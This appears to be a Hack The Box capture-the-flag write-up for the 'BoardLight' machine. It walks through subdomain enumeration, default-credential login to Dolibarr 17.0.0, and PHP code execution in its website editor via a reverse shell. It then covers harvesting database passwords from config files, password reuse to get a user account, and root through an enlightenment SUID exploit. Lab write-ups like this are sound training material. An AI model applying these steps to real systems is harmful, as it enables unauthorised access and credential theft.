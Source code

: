 ```yaml
---
date: 2025-01-15
categories: [CTF, HTB]
title: ""
tags: ['gobuster', 'nmap', 'privilege escalation', 'rce']

description: "BoardLight - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# HTB - BoardLight

NMAP

![image1](../resources/c584a483f0864c0eb03583194f9d116d.png)

- From the website we get the domain name:

![image2](../resources/14b6dca24a1345e5bdf1e13fa77d9aff.png)

Add board.htb to /etc/hosts

- Subdomain enum:

`gobuster vhost -u http://board.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -t 64 --append-domain`


![image3](../resources/0ebd3032692f4606bee68d2167100955.png)

We get:

**crm.board.htb**:

- Got a login site:

![image4](../resources/2bace493e6bf4f4eb6d011c15f32677a.png)

Guessed **admin : admin**

- And we're in:

![image5](../resources/4d0b4e9f990a46fc9406753737c3793c.png)

- We can see it runs **Dolibarr 17.0.0**

**<u>RCE exploit:</u>**

On the website tab - we can get RCE
<https://www.swascan.com/security-advisory-dolibarr-17-0-0/>

(The website resets quite often)

- Create new website
- Import website template
(I chose the first template and used the About Us page)
- Edit HTML Source

- I tested with:
\<?php includeContainer('header'); ?\>

\<section id="mysection1" contenteditable="true"\>

```bash
\<?**PHP** echo system("whoami");?\>

```
\</section\>

\<?php includeContainer('footer'); ?\>


![image6](../resources/fdbf7bdebb1648a2b2616aca7689f0df.png)

- Now if we use Pentestmonkey PHP rev shell and paste that inside the boilerplate code:
\<?php includeContainer('header'); ?\>

\<section id="mysection1" contenteditable="true"\>

**\<Pentest Monkey code - Change to Capital PHP\>**

\</section\>

\<?php includeContainer('footer'); ?\>


![image7](../resources/1fa07d7e4e8f40ac92a600ca3eaa0cdc.png)

- Set up listener
- Click save

![image8](../resources/5882ae1f6f5a4443b03e4b82cdcb113f.png)

```bash
/usr/bin/script -qc /bin/bash /dev/null

```
- Upload LinPEAS

We can see port 3306 open - MySQL


![image9](../resources/484b5c2483254a3bb3e9797058197f0a.png)

Also, it found a database.php file:

/var/www/html/crm.board.htb/htdocs/admin/system/database.php


![image10](../resources/1ded344e823e49cd8c1de071f3bc06da.png)

The file itself shows us the variables imported from the conf.php file ie. \$dolibarr_main_db_pass

- The conf file is located in:
/var/www/html/crm.board.htb/htdocs/conf/conf.php


![image11](../resources/f37dc24e41704f149c64592c64d6b649.png)

And here we get MySQL creds

\$dolibarr_main_db_user='**dolibarrowner**';

\$dolibarr_main_db_pass='**serverfun2\$2023!!**';


![image12](../resources/7987608bca534100b188f1bbf75a43fb.png)

```bash
show databases;
use dolibarr;
show tables;

```
There are a lot of tables in the DB

To find which have data do:

```bash
SELECT TABLE_NAME,TABLE_ROWS FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA = 'dolibarr';

```

![image13](../resources/0bdac24f00f146cd9b7d6f450fedea2b.png)


![image14](../resources/f0cd93d40d4a42cfa74a6d846d8a0758.png)

- After messing around with trying to crack the hash - which is a dead end and not needed:

I reused the mysql user password for larissa.

```bash
su larissa

# serverfun2\$2023!!
```

![image15](../resources/a6de4baf5e264e299fb613e990805b06.png)

- We can now SSH in

![image16](../resources/93cc749938ad404983752f4386230aea.png)

```bash
cat user.txt

```
**<u>Priv Esc</u>**

- In LinPEAS (updated version) - we see the unknown SUID binaries - enlightenment:

![image17](../resources/de2f56d2bcdc4483b51ff7ec52b00994.png)

- There is an exploit for this:
<https://www.exploit-db.com/exploits/51180>

- Run the bash script:

![image18](../resources/b9c6bf178c7643898908e1cce9a8f461.png)

- Root:

![image19](../resources/afb75ccbe05648fb914a5c94418df6f5.png)